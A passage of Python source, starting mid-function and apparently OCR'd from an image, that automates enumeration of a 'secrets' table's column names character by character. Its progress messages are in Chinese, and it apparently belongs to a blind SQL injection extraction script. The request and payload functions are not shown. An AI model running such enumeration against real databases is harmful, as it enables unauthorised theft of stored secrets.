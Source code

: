 ```
                break
        else:
            print(f"第{column_index+1}列第{pos}个字符枚举失败")
            break
    
    return column_name

def main():
    print("开始自动化枚举secrets表结构...")
    
    # 获取列数
    column_count = get_column_count()
    if column_count == 0:
        print("无法获取列数")
        return
    
    # 枚举每列的名称
    columns = []
    for i in range(column_count):
        column_name = get_column_name(i)
        columns.append(column_name)
        print(f"第{i+1}列: {column_name}")
    
    print(f"\nsecrets表结构:")
    for i, col in enumerate(columns):
        print(f"  {i+1}. {col}")

if __name__ == "__main__":
    main()
```
